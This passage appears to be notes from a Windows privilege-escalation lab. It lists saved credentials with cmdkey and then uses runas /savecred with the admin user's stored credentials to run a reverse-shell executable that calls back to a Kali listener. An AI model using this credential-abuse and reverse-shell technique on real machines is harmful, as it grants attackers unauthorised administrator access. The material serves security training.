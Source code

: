 List any saved credentials:

```
cmdkey /list
```

![[Pasted image 20240528194727.png]]


Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

Answer the questions below

Read and follow along with the above.
